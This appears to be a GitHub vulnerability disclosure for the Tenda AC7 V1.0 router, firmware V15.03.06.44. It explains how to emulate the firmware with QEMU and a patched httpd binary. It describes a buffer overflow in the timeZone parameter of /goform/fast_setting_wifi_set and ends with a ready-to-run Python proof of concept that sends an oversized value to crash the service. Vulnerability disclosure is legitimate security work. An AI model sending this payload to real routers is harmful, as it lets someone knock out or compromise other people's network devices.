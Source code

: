 form_fast_setting_wifi_set timeZone
---------------------------------------
Overview
--------

Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/6c8f66b9-f107-4610-973f-d5f4365cfbd8)

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.0.1/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7\_\_V15.03.06.44\_httpd\_ok file in this project) (modify the assembly to force skip the environment check step): [https://github.com/Raining-101/IOT\_cve/blob/main/a7\_\_V15.03.06.44\_httpd\_ok](https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok)

qemu command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
----------------

V15.03.06.44

### Vulnerability Details

This vulnerability lies in the `/goform/fast_setting_wifi_set` page

Tengda AC7 V1.0 V15.03.06.44 found a buffer overflow caused by the timeZone parameter in the form\_fast\_setting\_wifi\_set function, which can cause RCE:

![image](https://github.com/user-attachments/assets/387bfe10-e1c0-4312-a179-156bed2898bb)


### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/fast_setting_wifi_set"
headers = {
    "Host": "192.168.142.100",
    "Content-Length": "1391",
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.142.100",
    "Referer": "http://192.168.142.100/parental_control.html?random=0.7058891673130268&",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close",
    "Cookie": "password=iqb1qw; bLanguage=cn"
}


long_part = "Raining101" * 0x100
timeZone_value = f"{long_part}:{long_part}"  

data = {
    "ssid": "1",
    "timeZone": timeZone_value
}

response = requests.post(url, headers=headers, data=data)
print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![image](https://github.com/user-attachments/assets/e4e175e3-4637-4e34-a4d2-e785e424af4c)

